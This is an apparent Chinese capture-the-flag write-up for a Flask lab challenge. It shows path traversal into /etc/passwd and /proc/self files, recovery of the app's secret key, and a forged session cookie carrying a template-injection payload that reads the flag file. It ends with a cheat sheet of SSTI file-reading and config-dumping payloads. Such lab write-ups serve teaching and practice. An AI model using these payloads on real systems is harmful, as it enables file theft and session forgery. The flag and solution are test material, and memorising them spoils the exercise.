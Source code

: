 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{afr_3_solved}`
[参考资料](https://www.anquanke.com/post/id/170466)

## 思路
1. 访问环境，任意输入ls  
![](./images/afr3-1.png)
2. 网页将我们的输入值ls打印出来，可能存在模板注入  
![](./images/afr3-2.png)
3. 进一步进入article界面，测试flag，模板注入{{1+2}}  
![](./images/afr3-3.png)
![](./images/afr3-5.png)
![](./images/afr3-4.png)
4. 注意到输入为{{1+2}}时给出了路径，开始尝试路径穿越`../../../../../../../etc/passwd`，获得passwd文件值  
![](./images/afr3-6.png)
5. 利用`/proc/self/environ`获取当前程序的环境变量，猜测flag存在于`/home/sssssserver/flag`，但是还是显示无权限  
![](./images/afr3-7.png)
6. 利用`/proc/self/cmdline`获取当前程序命令行记录，发现`python server.py`命令，典型的使用了flask或Django  
![](./images/afr3-8.png)
7. 进一步利用`/proc/self/cwd`获取当前进程目录，通过`/proc/self/cwd/server.py`得到源码[server.py](./scripts/afr3_server.py)。在server.py中提到了`key.py`和`flag.py`，其内容如下。  
- key.py **#!/usr/bin/python key = 'Drmhze6EPcv0fN_81Bj-nA'**
- flag.py 由于server.py对带flag字符的参数过滤，所以没有得到文件内容
8. 通过阅读源码关键部分，如果`session['n1code']`不存在或者`n1code`不在session中，我们填入的表单值会作为`session['n1code']`的值。  
```python
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None 
    if n1code is not None:
        n1code = n1code.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
        template = None
    if session['n1code'] is not None:
        template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session[
            'n1code']
        session['n1code'] = None
        return render_template_string(template)
```  

9. 然后下列语句会将`session['n1code']`的值打印出来。  
    重点在于我们需要构造`session['n1code']`，能让`flag.py`的值被打印出来

```python
template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
```


10. 到这里时借用**Wilson Sumanang, Alexandre ZANNI**大佬的[flask session hack](./scripts/flask_session_cookie_hack.py)脚本。
- 解密代码模式
*python flask_session_cookie_hack.py decode -c {cookie} -s {secert_key}*
- 解密代码详情
python .\flask_session_cookie_hack.py decode -c eyJuMWNvZGUiOm51bGx9.X92dcQ.uupVCl_MiIFwJPSj4hnJTB6D5F4 -s Drmhze6EPcv0fN_81Bj-nA
- 本session的cookie值
![](./images/afr3-9.png)
- 执行解密脚本
![](./images/afr3-10.png)


11. 然后把`{'n1code': None}`换成读文件`flag.py`的代码，加密回去
```{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}```
- 加密代码模式
*python flask_session_cookie_hack.py encode -t {} -s {secert_key}*
- 加密代码详情
*python .\flask_session_cookie_hack.py encode -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}" -s Drmhze6EPcv0fN_81Bj-nA*
![](./images/afr3-11.png)

12. 得到cookie值，修改网页cookie值，在表单填入任意值，完成对`session['n1code']`的修改，使得[server.py](./scripts/afr3_server.py)可以打印出`flag.py`的内容
`eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdKCdmbGFnLnB5JykucmVhZCgpfX0ifQ.X92fSQ.KKLJgd92Ymr6a29ENijcYidV1Mk`
![](./images/afr3-12.png)
![](./images/afr3-13.png)

13. 获得flag
**n1book{afr_3_solved}**

## 总结
这道题究极费时费力，一个多月前第一次做的时候就不会，现在第二次做也还是不会，不过从当时的半知半解得到flag，到现在基本了解了整道题的原理和考点
- 考察对flask、Django等web框架的cookie、session加解密知识
- 考察`../../../../../`目录穿越
- 考察目录穿越后获取信息的能力
    - `/proc/self/environ` 当前进程环境变量
    - `/proc/self/cmdline` 当前进程命令行，得到`python server.py`命令
    - `/proc/self/cwd` 当前进程工作目录，得到server.py源码，进而找出flask的cookie篡改漏洞。
- 考察SSTI(模板注入)  
  `{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}`

## SSTI常用命令
- **读取文件内容1，()也可以为''**  
```{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['open']("/app/server.py").read()}}``` 
- **读取文件内容2**
```{{''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read()}}```
- **获取配置**  
```{{config.items()}}```
- **自身dict**  
```{{self.__dict__}}```
- **获取当前app配置**  
```{{get_flashed_messages.__globals__['current_app'].config}}```
- **__getitem__绕过[]**  
```{{get_flashed_messages.__globals__.__getitem__('current_app').config}}```
- **url_for减少字符长度**  
```{{url_for.__globals__.__getitem__('current_app').config}} ```
